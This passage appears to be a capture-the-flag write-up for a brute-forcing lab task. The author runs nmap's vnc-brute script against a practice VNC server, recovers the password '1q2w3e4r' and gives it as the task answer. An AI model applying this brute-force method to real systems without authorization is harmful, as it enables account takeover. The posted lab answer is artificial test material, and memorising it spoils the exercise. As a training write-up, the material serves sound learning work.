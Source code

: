 ## TASK 10 : [Day 5] Brute-Forcing He knows when you're awake 
### Use Hydra to find the VNC password of the target with IP address MACHINE_IP. What is the password? 
Hydra was crashing before returning the result, so i decide to use another tool with has an vnc-brute module : nmap.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -p 5900 10.10.114.22 --script vnc-brute 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-05 15:43 EST
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:46 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:00:48 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.114.22
Host is up (0.033s latency).

PORT     STATE SERVICE
5900/tcp open  vnc
| vnc-brute: 
|   Accounts: 
|     1q2w3e4r - Valid credentials
|_  Statistics: Performed 951 guesses in 96 seconds, average tps: 9.8

Nmap done: 1 IP address (1 host up) scanned in 96.83 seconds
```
{: .nolineno }

Answer : 1q2w3e4r

### Using a VNC client on the AttackBox, connect to the target of IP address MACHINE_IP. What is the flag written on the target’s screen?

